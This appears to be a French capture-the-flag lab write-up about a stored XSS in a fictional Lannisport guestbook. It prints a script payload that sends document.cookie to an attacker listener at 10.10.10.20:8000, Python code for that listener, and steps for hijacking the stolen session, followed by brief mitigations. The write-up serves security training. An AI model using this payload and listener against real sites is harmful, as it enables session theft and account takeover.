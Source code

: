 # 🏰 Stored XSS & Vol de Cookie - Livre d'Or de Lannisport

## 🎯 Objectif
John doit voler le **cookie de session d’un garde** pour accéder à Castral-Roc.
Pour cela, il injecte un **XSS stocké** dans le **livre d’or** afin de récupérer le cookie **non protégé par HttpOnly**.

**Flag attendu :** Le cookie de session du garde.

---

## ⚙️ Environnement
- **Cible :** lannisport.south
- **Page vulnérable :** livre_dor.php
- **Langage :** PHP / JavaScript

---

## 🚀 Étape 1 : Injecter un XSS dans le livre d’or
Le formulaire du livre d’or **ne filtre pas les entrées**, permettant d’injecter un script malveillant.

🔹 **Script XSS à injecter dans un commentaire** :
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://10.10.10.20:8000/?cookie=' + document.cookie, true);
xhr.send();
</script>
```

📌 **Effet** : Quand un garde consulte la page, son cookie de session est envoyé à l’attaquant.

---

## 🔍 Étape 2 : Capturer le cookie sur Kali
L’attaquant met en place un **serveur d’écoute** pour récupérer les cookies volés.

🔹 **Script Python sur Kali** :
```python
from http.server import BaseHTTPRequestHandler, HTTPServer

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        if "cookie" in self.path:
            cookie = self.path.split("=")[1]
            print(f"Cookie volé : {cookie}")
            with open("stolen_cookies.txt", "a") as f:
                f.write(cookie + "\n")
        self.send_response(200)
        self.end_headers()

server_address = ('10.10.10.20', 8000)
httpd = HTTPServer(server_address, Handler)
print("[+] Serveur en écoute sur le port 8000...")
httpd.serve_forever()
```
*Veuillez changer l'**IP** en fonction de celle mise sur Kali*

📌 **Démarrer le serveur d’écoute sur Kali** :
```bash
python3 capture_server.py
```

---

## 🚀 Étape 3 : Déclencher l’attaque avec Selenium
Un **script Selenium** simule la navigation d’un garde qui consulte le livre d’or.

🔹 **Script Selenium (Victime - Ubuntu Desktop)** :
```python
from selenium import webdriver
from selenium.webdriver.common.by import By
import time

driver = webdriver.Chrome()
driver.get("http://lannisport.south/login.php")

driver.find_element(By.NAME, "username").send_keys("garde")
driver.find_element(By.NAME, "password").send_keys("password")
driver.find_element(By.NAME, "submit").click()

time.sleep(3)
driver.get("http://lannisport.south/livre_dor.php")
time.sleep(10)

driver.quit()
```
📌 **Quand Selenium exécute ce script, il déclenche le XSS et envoie le cookie à Kali.**

---

## 🎯 Étape 4 : Validation du Flag
✅ **Kali reçoit le cookie de session** :
```bash
cat stolen_cookies.txt
```
✅ **Utilisation du cookie volé pour usurper la session du garde** :
- Ouvrir les outils développeur (F12) > **Application** > **Cookies**.
- Modifier PHPSESSID avec la valeur capturée.
- Recharger la page.

**🚀 Succès ! L’attaque est réalisée et le flag récupéré !** 🔥

---

## 🔒 Mitigation & Sécurisation
- **Activer HttpOnly sur les cookies** pour empêcher l’accès JavaScript.
- **Filtrer les entrées utilisateur** (htmlspecialchars()) pour empêcher le XSS.
- **Utiliser CSP (Content Security Policy)** pour bloquer les scripts inline.

---

## 🏆 Conclusion
- **Un XSS stocké a été exploité pour voler un cookie de session.**
- **Le serveur d’écoute Kali a capturé le flag.**
- **L’attaque est réussie !** 🚀🔥